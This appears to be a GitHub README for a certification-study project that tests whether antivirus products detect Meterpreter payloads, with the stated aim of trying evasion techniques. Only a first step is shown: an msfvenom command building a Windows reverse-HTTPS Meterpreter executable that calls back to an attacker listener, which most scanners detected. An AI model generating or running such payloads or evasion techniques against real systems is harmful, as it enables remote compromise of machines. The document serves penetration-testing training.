 ShellCoder
=======

- I use this repository for my OSEP certification
- Thanks to https://github.com/EnginDemirbilek/Flip
- Thanks to https://github.com/9emin1/charlotte
- Thanks to https://github.com/Arno0x/ShellcodeWrapper

The purpose of this document is to check the ability of the antivirus to detect a meterpreter binary. For this purpose I
will try different methods described in the mentioned PDF. Some of these methods may have become obsolete by antivirus
updates since this document was published in 2014. However, it is also possible that some evasion techniques are still
effective against current antiviruses. Therefore, it will be interesting to test these different methods and see if
current antivirus programs can detect a meterpreter payload. It is indeed quite likely that most modern antivirus
programs will be able to detect the meterpreter binary, given that it is known to be used in computer attacks. However,
it is important to note that the detection of software as malicious does not necessarily mean that it will be blocked or
removed by the antivirus. It is possible that an antivirus program may detect the meterpreter binary but not have the
ability to remove it, or ask the user for confirmation before doing so. It is also possible that some versions of
meterpreter are more effective than others at going undetected by antivirus software. In any case, it is important to
continue testing and evaluating the ability of antivirus software to detect this kind of software in order to ensure the
security of our systems.



Step 1
______

- I start my test with a simple binary generated by metasploit.

        ```bash
        msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.118 LPORT=443 EXITFUNC=thread -f exe -o step1.exe
          ```

Without surprise 53 AV out of 71 detect it :[Link VirusTotal](https://www.virustotal.com/gui/file/e787031fe8dcc781680e35184f67ea767a08cbab41de70ed3ae04c3f106887da?)

![Step1](doc/step1.png "Simple meterpreter payload")